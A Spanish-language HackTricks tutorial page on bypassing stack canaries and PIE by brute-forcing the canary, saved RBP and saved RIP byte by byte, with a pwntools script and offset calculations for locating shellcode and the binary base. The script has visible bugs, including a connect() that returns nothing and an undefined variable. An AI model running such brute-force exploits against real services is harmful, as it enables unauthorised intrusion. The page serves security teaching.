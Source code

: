 # Direcciones de BF en la Pila

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Si te enfrentas a un binario protegido por un canary y PIE (Ejecutable Independiente de Posición), probablemente necesites encontrar una forma de evadirlos.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Ten en cuenta que **`checksec`** puede que no detecte que un binario está protegido por un canary si fue compilado estáticamente y no es capaz de identificar la función.\
Sin embargo, puedes darte cuenta manualmente si encuentras que se guarda un valor en la pila al comienzo de una llamada a función y este valor se verifica antes de salir.
{% endhint %}

## Direcciones de Fuerza Bruta

Para **evadir el PIE** necesitas **filtrar alguna dirección**. Y si el binario no está filtrando ninguna dirección, lo mejor es **forzar el RBP y RIP guardados en la pila** en la función vulnerable.\
Por ejemplo, si un binario está protegido usando tanto un **canary** como **PIE**, puedes comenzar a forzar el canary, luego los **siguientes** 8 Bytes (x64) serán el **RBP** guardado y los **siguientes** 8 Bytes serán el **RIP** guardado.

{% hint style="success" %}
Se supone que la dirección de retorno dentro de la pila pertenece al código binario principal, lo cual, si la vulnerabilidad se encuentra en el código binario, suele ser el caso.
{% endhint %}

Para forzar el RBP y el RIP desde el binario puedes darte cuenta de que un byte adivinado válido es correcto si el programa muestra algo en la salida o simplemente no se bloquea. La **misma función** que se proporciona para forzar el canary se puede usar para forzar el RBP y el RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Lo último que necesitas para derrotar al PIE es calcular **direcciones útiles a partir de las direcciones filtradas**: el **RBP** y el **RIP**.

A partir del **RBP** puedes calcular **dónde estás escribiendo tu shell en la pila**. Esto puede ser muy útil para saber dónde vas a escribir la cadena _"/bin/sh\x00"_ dentro de la pila. Para calcular la distancia entre el RBP filtrado y tu shellcode, simplemente coloca un **punto de interrupción después de filtrar el RBP** y verifica **dónde se encuentra tu shellcode**, luego puedes calcular la distancia entre el shellcode y el RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Desde el **RIP** puedes calcular la **dirección base del binario PIE** que necesitarás para crear una **cadena ROP válida**.\
Para calcular la dirección base, simplemente ejecuta `objdump -d vunbinary` y verifica las últimas direcciones desensambladas:

![](<../../../.gitbook/assets/image (479).png>)

En ese ejemplo puedes ver que solo se necesita **1 byte y medio** para localizar todo el código, entonces, la dirección base en esta situación será el **RIP filtrado pero terminando en "000"**. Por ejemplo, si filtraste `0x562002970ecf`, la dirección base será `0x562002970000`.
```python
elf.address = RIP - (RIP & 0xfff)
```
## Mejoras

Según [**algunas observaciones de esta publicación**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), es posible que al filtrar los valores de RBP y RIP, el servidor no se bloquee con algunos valores que no son los correctos y el script BF podría pensar que obtuvo los correctos. Esto se debe a que es posible que **algunas direcciones simplemente no lo rompan incluso si no son exactamente las correctas**.

Según esa publicación en el blog, se recomienda agregar un breve retraso entre las solicitudes al servidor.
